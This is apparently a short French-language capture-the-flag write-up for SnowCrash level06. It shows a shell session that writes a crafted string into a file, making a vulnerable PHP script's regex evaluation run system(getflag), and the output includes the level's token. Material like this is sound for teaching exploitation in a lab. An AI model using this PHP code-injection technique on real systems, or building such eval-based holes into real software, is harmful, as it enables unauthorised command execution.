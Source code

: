 ### Comment obtenir le flag
level06@SnowCrash:~$ echo "[x {\${system(getflag)}}]" > /tmp/file  
level06@SnowCrash:~$ ./level06 /tmp/file  
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1  
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub  
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1  
